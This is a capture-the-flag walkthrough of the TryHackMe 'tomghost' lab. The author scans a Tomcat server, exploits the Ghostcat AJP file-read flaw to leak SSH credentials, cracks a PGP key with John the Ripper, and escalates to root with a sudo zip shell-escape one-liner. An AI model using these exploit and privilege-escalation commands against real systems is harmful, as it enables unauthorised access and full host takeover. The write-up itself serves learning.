


# tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:


We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:


At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:


I will then copy this file to my local directory so I can use it for the exploit:


I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
    skyfuck:password <!----I took out the password----->
  </description>

</web-app>
```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:


There were 2 files in this directory: credential.pgp and tryhackme.asc. Neither of them looked as interesting as I thought they would. Looking around, I found a folder of a different user, and in their directory, I found the user.txt file.



I realized that to switch my user access, to merlin \(or even to root\), I had to do something with the files in the skyfuck directory. I downloaded them using scp:


I did run into run more trouble here as well. While trying to import the tryhackme.asc by gpg, it was asking me for a password, which I did not have. I had to refer back to the [previous website ](https://cyber-99.co.uk/thm-tomghost)to see how else I can attack this problem. Based on the website, my next step was to use John the ripper to crack the asc file. Prior to doing that, I did have to change into a format that is readable by John. Here is where programs in /opt/john/ come into play. They convert files from one type into a john crackable format. We will use "gpg2john.py".


Running john on it let me to a password:



I then used the commands on [this website](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) in order to decrypt the files using the password from the john command.


From there, I got into merlin's account using that password. I ran "sudo -l" to see what commands the user merlin is able to do.


We can see that merlin is able to the "zip" command. I have not used this command before, so i will have to do research into how we can root using this. I went to the [GTFObins website](https://gtfobins.github.io/gtfobins/zip/#sudo) to see how I am able to get root on this machine. I ran the following commands:

```markup
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

After this, I had a root shell. I was then able to read the contents of /root/root.txt.


I had now gotten the password and had completed the room. Overall, it was a great room. I did get lost a couple of times, but I think that's part of the learning process.

